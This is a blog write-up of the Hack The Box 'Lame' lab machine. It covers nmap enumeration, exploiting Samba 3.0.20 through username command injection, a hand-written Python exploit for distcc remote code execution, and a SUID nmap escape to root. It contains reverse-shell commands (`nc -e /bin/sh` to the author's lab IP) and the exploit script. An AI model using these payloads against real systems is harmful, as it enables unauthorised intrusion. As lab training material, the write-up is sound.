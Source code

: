 ```yaml
---
layout: single_c
title:  "Hack The Box - Lame Writeup"
date:   2020-06-26 10:43:16 +0530
categories: HTB
tags: OSCP
toc: true
classes: wide
---
```

### Hack The Box - Lame
![image1]({{ site.url }}{{ site.baseurl }}/assets/images/htbimg/lame/lame.png){: .align-center}


## Enumeration

Start with an `nmap` scan.

#### Nmap
```bash
Nmap scan report for lame.com (10.10.10.3)
Host is up, received user-set (0.26s latency).
Scanned at 2020-06-21 02:01:21 EDT for 582s
Not shown: 65530 filtered ports
Reason: 65530 no-responses
PORT     STATE SERVICE     REASON         VERSION
21/tcp   open  ftp         syn-ack ttl 63 vsftpd 2.3.4
22/tcp   open  ssh         syn-ack ttl 63 OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp  open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn syn-ack ttl 63 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3632/tcp open  distccd     syn-ack ttl 63 distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun 21 02:11:03 2020 -- 1 IP address (1 host up) scanned in 583.83 seconds
```

We have quite a few attack vectors.

### vsftpd 2.3.4

```bash
kali@kali:~$ searchsploit vsftpd 2.3.4
kali@kali:~$ searchsploit vsftpd 2.3.4 | cut -b -100
----------------------------------------------------------------------------------------------------
 Exploit Title                                                                                      
                                                                                                    
----------------------------------------------------------------------------------------------------
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)            
----------------------------------------------------------------------------------------------------
Shellcodes: No Result
```

We have a back door in this version of `ftp` which can be triggered by sending `:)` at the end of username. But this exploit failed and did not give a shell.  

# Method 1 (Samba 3.0.20 Without Metasploit)

#### smbmap
```bash
kali@kali:~/Desktop/htb/lame$ smbmap -H lame.com
[+] Finding open SMB ports....
[+] User SMB session established on lame.com...
[+] IP: lame.com:445    Name: unknown                                           
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        tmp                                                     READ, WRITE     oh noes!
        opt                                                     NO ACCESS
        IPC$                                                    NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$                                                  NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
```

`smbmap` shows that the share `/tmp` is accessible. I couldn't find anything interesting in there. We can also see that the `samba` version is `3.0.20`.

#### Searchsploit
```bash
kali@kali:~$ searchsploit samba 3.0.20 | cut -b -150
------------------------------------------------------------------------------------------------------------------------------------------------------
 Exploit Title                                                                                                                                        
                                                                                                                                                      
------------------------------------------------------------------------------------------------------------------------------------------------------
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                    
Samba < 3.0.20 - Remote Heap Overflow                                                                               
------------------------------------------------------------------------------------------------------------------------------------------------------
```

There is a remote code execution vulnerability in this version of `samba`. And there is an msf exploit for this.

### Understanding the metasploit code

Going through the short exploit, we can check the exploit function to see how it works.

```perl
def exploit

		connect
		username = "/=`nohup " + payload.encoded + "`"
		begin
			simple.client.negotiate(false)
			simple.client.session_setup_ntlmv1(username, rand_text(16), datastore['SMBDomain'], false)
		rescue ::Timeout::Error, XCEPT::LoginError
			# nothing, it either worked or it didn't ;)
		end

		handler
	end
```

The payload is passed in [backticks](https://unix.stackexchange.com/questions/27428/what-does-backquote-backtick-mean-in-commands)(which is used to execute commands) within the `username` with the added `nohup` command which  executes another command, and instructs the system to continue running it even if the session is disconnected. But for some reason it was not working with `smbclient`. The username was getting capitalized.

We can overcome this by first connecting to `smb` and then passing the `username` in the `logon` command. If you are using kali 2020, you will have to pass the `--option='client min protocol=NT1' ` to `smbclient`

```bash
kali@kali:~/Desktop/htb/lame$ sudo smbclient \\\\lame.com\\tmp --option='client min protocol=NT1'                    
Enter WORKGROUP\root's password:                                                                                     
Anonymous login successful                                                                                          
Try "help" to get a list of possible commands.                                                                       
smb: \> logon "./=`nohup nc -e /bin/sh 10.10.14.34 1337`"                                                            
Password:    
```

Wait for a connection using `nc`

```bash
kali@kali:~$ nc -lvp 1337
listening on [any] 1337 ...
connect to [10.10.14.34] from lame.com [10.10.10.3] 34789
id
uid=0(root) gid=0(root)
```

We are root!

I also found a [python script](https://github.com/amriunix/CVE-2007-2447) for exploiting this. We can also achieve root using this script.
# Method 2 (DistCC Daemon RCE)

There is a `distcc` daemon running on port `3632`. There is a `metasploit` module and `nmap` script available for this. 
```bash
kali@kali:~/Desktop/htb/lame$ searchsploit distcc | cut -b -150
---------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                              |  Path
                                                                            | (/usr/share/exploitdb/)
---------------------------------------------------------------------------- ----------------------------------------
DistCC Daemon - Command Execution (Metasploit)                              | exploits/multiple/remote/9915.rb
---------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```
Looking at the nmap script we can see how the script creates the payload

```bash
 local cmds = {
    "DIST00000001",
    ("ARGC00000008ARGV00000002shARGV00000002-cARGV%08.8xsh -c " ..
    "'(%s)'ARGV00000001#ARGV00000002-cARGV00000006main.cARGV00000002" ..
    "-oARGV00000006main.o"):format(10 + #arg_cmd, arg_cmd),
    "DOTI00000001A\n",
  }
```
The length of the command is formated to 8 characters and added before the command. 

With the help of this [article](https://vulners.com/openvas/OPENVAS:1361412562310103553) wrote a python script to exploit it. The output contains some output of the `distcc` daemon. We have to add a separator before and after our command to strip out the output. 

```python
import socket
while True:
        cmd = input("cmd>")
        # Separator to pull out the output
        sep = "sep123"
        new_cmd = f"echo -n {sep};{cmd};echo -n {sep}"
        payload = f"""DIST00000001ARGC00000008ARGV00000002shARGV00000002-cARGV{len(new_cmd):8x}{new_cmd}ARGV00000001#ARGV00000002-cARGV00000006main.cARGV00000002-oARGV00000006main.oDOTI00000001A"""
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('lame.com', 3632))
        s.sendall(payload.encode())
        print(s.recv(1000).decode().split(sep)[1].strip())
```

## User Shell

Start a `nc` listener to receive the shell

```bash
kali@kali:~/Desktop/htb/lame$ python3 exp.py
cmd>id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
cmd>ls
5194.jsvc_up
distcc_d115ebee.stdout
distcc_d13febee.stderr
distccd_d6bdebee.o
distccd_d6c4ebee.i
cmd>nc -e /bin/sh 10.10.14.34 1337
```

```bash
kali@kali:~/Desktop/htb/lame$ nc -lvp 1337
listening on [any] 1337 ...
connect to [10.10.14.34] from lame.com [10.10.10.3] 38311
python -c 'import pty;pty.spawn("bash")'
aemon@lame:/tmp$ id
id
uid=1(daemon) gid=1(daemon) groups=1(daemon)
```

## Root shell

Going through the system we can see that we have an older version of `nmap` binary with `suid` bit set. We can use this get shell.

```bash
daemon@lame:/tmp$ nmap --interactive
nmap --interactive

Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
sh-3.2# id
id
uid=1(daemon) gid=1(daemon) euid=0(root) groups=1(daemon)
sh-3.2# cat /root/root.txt
cat /root/root.txt
92caac**********************
```

And we are root.